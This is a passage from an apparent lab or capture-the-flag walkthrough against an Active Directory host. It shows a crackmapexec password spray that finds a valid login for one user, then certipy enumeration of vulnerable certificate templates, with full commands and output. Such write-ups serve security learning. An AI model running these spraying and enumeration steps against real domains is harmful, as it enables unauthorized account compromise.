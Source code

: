 ```bash

```

- Now that we have the clear text password but don't know which account uses this password, we can go ahead and password spray and as shown below we got a hit on user `Jodie.Summers`

```bash
❯ cme smb 192.168.220.30 -u users.txt -p hHO_S9gff7ehXw
SMB         192.168.220.30  445    NARA             [*] Windows 10.0 Build 20348 x64 (name:NARA) (domain:nara-security.com) (signing:True) (SMBv1:False)
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Administrator:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Guest:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\krbtgt:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\NARA$:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Amelia.O'Brien:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Damian.Johnson:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Helen.Robinson:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Sara.O'Sullivan:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Jasmine.Roberts:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [-] nara-security.com\Declan.Reynolds:hHO_S9gff7ehXw STATUS_LOGON_FAILURE 
SMB         192.168.220.30  445    NARA             [+] nara-security.com\Jodie.Summers:hHO_S9gff7ehXw 
```

- I don't know what made me think about ADCS attacks but the **"Enrollment Automation Account"** already gave it away i think. so i decided to enumerate vulnerable certificates using the `certipy` tool. 

```bash
❯ certipy find -vulnerable -dc-ip 192.168.220.30 -u 'Jodie.Summers@nara-security.com' -p 'hHO_S9gff7ehXw'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'NARA-CA' via CSRA
[!] Got error while trying to get CA configuration for 'NARA-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'NARA-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'NARA-CA'
[*] Saved BloodHound data to '20240816092801_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240816092801_Certipy.txt'
[*] Saved JSON output to '20240816092801_Certipy.json'
```
